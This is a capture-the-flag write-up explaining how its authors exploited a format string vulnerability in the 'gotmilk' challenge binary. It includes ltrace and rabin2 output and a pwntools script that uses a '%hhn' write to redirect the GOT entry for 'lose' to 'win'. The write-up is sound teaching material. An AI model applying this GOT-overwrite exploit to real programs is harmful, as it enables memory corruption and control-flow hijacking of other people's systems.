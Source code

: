 # Got Milk Exploit
Connor Onweller and Sophia Freaney

## Exploring
We've got the following files:

```
7got_milk
├── gotmilk
└── libmylib.so
```
We have a library `libmylib.so` and an executable called `gotmilk`.

We probably need do something with that library, but let's ignore it for now and try
and run `gotmilk`:

```sh
./gotmilk
```

When we do this, we get the following error:
```
./gotmilk: error while loading shared libraries: libmylib.so: cannot open
shared object file: No such file or directory
```

So we need to specify the library path so the executable can find
`libmylib.so`. We can do this with:

```sh
export LD_LIBRARY_PATH=.
```

Now if we run `./gotmilk` we get the following output:

```
Simulating loss...

No flag for you!
Hey you! GOT milk? Yes please
Your answer: Yes please

No flag for you!
```

We don't GOT milk. :(

Now let's use `ltrace` to see whats going on. This will show us
what library functions are being called in the executable, and what arguments
are passed into them.

```sh
ltrace ./gotmilk
```

This gives us the following output:

```
__libc_start_main(0x80485f6, 1, 0xffc4cee4, 0x80486d0 <unfinished ...>
setvbuf(0xf7ebed20, 0, 2, 0)                                                                                  = 0
setvbuf(0xf7ebe580, 0, 2, 0)                                                                                  = 0
setvbuf(0xf7ebec80, 0, 2, 0)                                                                                  = 0
puts("Simulating loss..."Simulating loss...
)                                                                                    = 19
lose(0, 0xca0000, 1, 0xf7f0a800
No flag for you!
)                                                                              = 18
printf("Hey you! GOT milk? "Hey you! GOT milk? )                                                                                 = 19
fgets(A lil... as treat
"A lil... as treat\n", 100, 0xf7ebe580)                                                                 = 0xffc4cdcc
printf("Your answer: "Your answer: )                                                                                       = 13
printf("A lil... as treat\n"A lil... as treat
)                                                                                 = 18
lose(0, 0xca0000, 1, 0x696c2041
No flag for you!
)                                                                              = 18
+++ exited (status 0) +++
```

From this, we see 2 notable things:

1. There's a `lose` function in `libmylib.so` which prints `No flag for you!`. We
   should checkout this library to see what else there is
2. It looks like our inputted string is passed directly into a `printf`
   statement, meaning there might be a format string vulnerability

### What's boppin in libmylib.so?

To see what functions `libmylib.so` contains, we can run `rabin2`,
which is a binary program info extractor. When we pass the `-s` flag into
the command, we specify that we want to get back a list of export symbols from
the binary.

```sh
rabin2 -s libmylib.so
```

From the output we can see there's a `lose` function and a `win` function:

```
10   0x000011f8 0x000011f8 GLOBAL FUNC   49       lose
11   0x00001189 0x00001189 GLOBAL FUNC   111      win
```

This win function probably `cat`s the contents of some file or something
similar. We should now look for relevant strings that might contain a filename with
the following:

```sh
rabin2 -z libmylib.so
```

Output:

```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002002 0x00002002 8   9    .rodata ascii flag.txt
1   0x0000200b 0x0000200b 17  18   .rodata ascii \nNo flag for you!
```

The filename is `flag.txt`. Since we don't have this file already we can
make one:

```sh
echo My bones > flag.txt
```

# What's going on with all this printf stuff?

Now we want to see if the 2nd call `printf` is printing our inputted string
directly. We can test it out by trying to pass it some `printf` flags in our
text.

With the following input:

```
Hey you! GOT milk? %x %x %x
```

We get this output:
```
Your answer: 64 f7f6f580 804866f
```

Look's like we got a format string vulnerability.

This means that, since we're already able to push to the stack with the our
input, we can likely write anywhere in memory by exploiting this `printf` call.
This is because `printf` accepts the flag `%n`, which will write the number of
characters printed thus far to the address argument associated with the flag.

For example, consider the following code:

```c
int main(int argc, char ** argv) {
    int a;
    printf("123%n", &a);    // will print 123
    printf("&d", a);        // will print 3
    return 0;
}
```

The value 3 will be written to `a` since 3 characters were printed before the
`%n` in the first `printf` statement.

This is useful for us, since it means we can overwrite values stored anywhere
in memory with the number of characters printed so far. In our case we probably
want to overwrite the `lose` function to execute the `win` function.

To do so, we need to overwrite the value stored in the GOT for `lose` with
address of the `win` function.

> **Note:** the GOT is the Global Offset Table. It is used the dynamic linking
> process to help us find where linked symbols are.

Now all we have to do is figure out where the `GOT` entry for `lose` is, what
the address for `lose` and `win` are in our library file, and overwrite the
`GOT` entry for `lose` to contain the address of `win`.

## Lets start pwning

First lets figure out where our input is going going on the stack, so know what
argument will contain the address of the `lose` entry we want to pass to `%n`
in our print statement. We can do this by printing a bunch of `A`s followed by
some flags and trying to find which argument our `A`s are:

```python
from pwn import *

payload = b"A"*10

for i in range(1,11):
    payload += f" {i}:%x".encode()

p = process('./gotmilk')
p.sendline(payload)
print(p.recv())
```

We get the following string printed:

```
1:64 2:f7f33580 3:804866f 4:0 5:ca0000 6:1 7:41414141 8:41414141 9:31204141 10:2078253a
```

It looks like the `A`s are the 7th argument (A in binary is 41)

Now we need to figure out what the address of `win` and `lose` are in the
library:

```python
from pwn import *

lib = ELF('./libmylib.so')

print(hex(lib.symbols['lose']))  # 0x11f8
print(hex(lib.symbols['win']))   # 0x1189
```

It looks we'll just have to overwrite the last part of `lose`'s address to be
`89` instead of `f9`.

Lets try and do this now, first we need to get the address of `GOT` entry of
`lose`, then we need to overwrite the last byte of `lose` to be `89` instead of
`f9`.

```python
from pwn import *

elf = ELF('./gotmilk')

lose_got = elf.got['lose']
pad_sz = 0x89 - 4  # minus 4 since lose_got address is 4 bytes
arg_loc = 7


payload = p32(lose_got)
payload += f"%{pad_sz}x".encode()  # We need to pad our print with enough
                                   # characters so that we print 0x89 characters

payload += f"%{arg_loc}$hhn".encode()  # We say hhn instead of n to specify we
                                       # only want to write 1 byte, not 4

p = process('./gotmilk')
p.sendline(payload)
print(p.recv())
```

We get:

```
Out[1]: b'Simulating loss...\n\nNo flag for you!\nHey you! GOT milk? Your answer: \x10\x
a0\x04\x08
                                                     64\nMy bones\n'
```

Ladies and gentleman... we got milk.
